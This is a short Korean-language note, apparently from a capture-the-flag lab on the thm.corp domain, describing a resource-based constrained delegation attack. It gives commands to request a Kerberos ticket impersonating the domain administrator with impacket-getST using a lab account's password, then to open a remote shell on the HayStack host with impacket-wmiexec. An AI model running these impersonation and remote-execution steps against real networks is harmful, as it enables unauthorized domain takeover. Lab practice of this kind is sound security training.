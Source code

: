 
- **목적:** 리소스 기반 제한된 위임(RBCD) 공격에서 특정 사용자를 사칭하는 서비스 티켓을 요청하는 데 사용됩니다.
- ---


```bash title="/etc/hosts 파일에 도메인 등록해줘야함"
echo "<DC IP 주소> thm.corp" | sudo tee -a /etc/hosts
echo "<HayStack 서버 IP 주소> HayStack.thm.corp" | sudo tee -a /etc/hosts

# EX
echo "10.201.64.40 thm.corp" | sudo tee -a /etc/hosts
echo "10.201.64.40 HayStack.thm.corp" | sudo tee -a /etc/hosts
```


```bash
impacket-getST -k -impersonate 'administrator' -spn 'cifs/haystack.thm.corp' 'thm.corp/darla_winters:Password123!'
```


```bash
# 생성된 캐시파일 환경변수에 등록
export KRB5CCNAME=~~~~~.ccache
```


```bash
rlwrap impacket-wmiexec -k -no-pass administrator@haystack.thm.corp
```

